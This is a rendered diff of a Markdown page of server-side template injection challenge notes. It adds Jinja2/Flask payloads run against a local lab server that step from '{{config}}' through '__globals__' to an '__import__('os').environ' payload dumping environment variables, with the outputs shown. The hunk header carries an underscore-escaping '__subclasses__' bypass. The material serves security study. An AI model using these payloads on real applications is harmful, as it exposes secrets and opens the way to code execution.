

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -53,7 +53,16 @@ http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f
 
 
 - Get all the current envvars
+```http://127.0.0.1:5000/?c={{config}}```: ```<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None,```
+```http://127.0.0.1:5000/?c={{config.__class__}}``` : ```<class 'flask.config.Config'>```
+```http://127.0.0.1:5000/?c={{config.__class__.from_envvar}}```: ```<function Config.from_envvar at 0x7facac89bf60>```
+```http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22]}}```: ```{'__name__': 'flask.config', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac8a3190>, ...```
 
+PAYLOAD:
+```
+http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22][%22__builtins__%22][%22__import__%22](%22os%22).environ}}
+```
+![image](https://github.com/poorvi1910/Web/assets/146640913/de0b5534-d6a5-41aa-9c42-c4d4493f7a61)
 
 - Read a local file
 
````
Also changed, not shown: other parts of challenges/SSTI_payload_creation_chall.md (+1 -2 lines).
